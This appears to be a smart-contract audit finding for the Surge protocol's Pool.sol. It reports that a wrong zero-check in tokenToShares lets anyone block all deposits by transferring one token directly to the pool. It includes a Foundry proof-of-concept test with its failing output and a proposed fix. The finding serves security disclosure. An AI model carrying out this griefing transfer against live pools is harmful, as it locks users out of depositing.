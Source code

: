 bin2chen

medium

# Pool.sol DOS attack

## Summary
the wrong use  ```_supplied == 0``` as a judgment condition ,  A malicious user can execute a DOS attack, causes  anyone unable to deposit
## Vulnerability Detail

The current formula for converting assets and shares is as follows:
```solidity
    function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
        if(_supplied == 0) return _tokenAmount;   //<------This place should use if (_sharesTotalSupply ==0)
        uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
        if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
        return shares;
    }
```
Here is a problem, the wrong use  ```_supplied == 0``` as a judgment condition, if the malicious user directly transfer 1 token into the contract, will lead to deposit()  no matter deposit how much, the returned shares are 0 always, resulting in revert.deposit()  can't work anymore

The test code is as follows:
add to Pool.t.sol
```solidity
    function testDos() external {
        uint amount = 1e36;
        MockERC20 collateralToken = new MockERC20(0, 18);
        MockERC20 loanToken = new MockERC20(amount, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        //1.Malicious transfer 1 to pool
        loanToken.transfer(address(pool), 1); 
        loanToken.approve(address(pool), amount);
        //2.any depoist will revert with "Pool: 0 shares"
        pool.deposit(1000);
    } 
```

```console
$ forge test --match testDos -vvv

Running 1 test for test/Pool.t.sol:PoolTest
[FAIL. Reason: Pool: 0 shares] testDos() (gas: 2695684)
```

## Impact
DOS attack , Pool.sol Unable to deposit
## Code Snippet

https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L200

## Tool used

Manual Review

## Recommendation

```solidity
    function tokenToShares (uint _tokenAmount, uint _supplied, uint _sharesTotalSupply, bool roundUpCheck) internal pure returns (uint) {
-       if(_supplied == 0) return _tokenAmount;
+       if(_sharesTotalSupply == 0) return _tokenAmount;  // Don't worry _sharesTotalSupply !=0  but _supplied==0 
        uint shares = _tokenAmount * _sharesTotalSupply / _supplied;
        if(roundUpCheck && shares * _supplied < _tokenAmount * _sharesTotalSupply) shares++;
        return shares;
    }
```
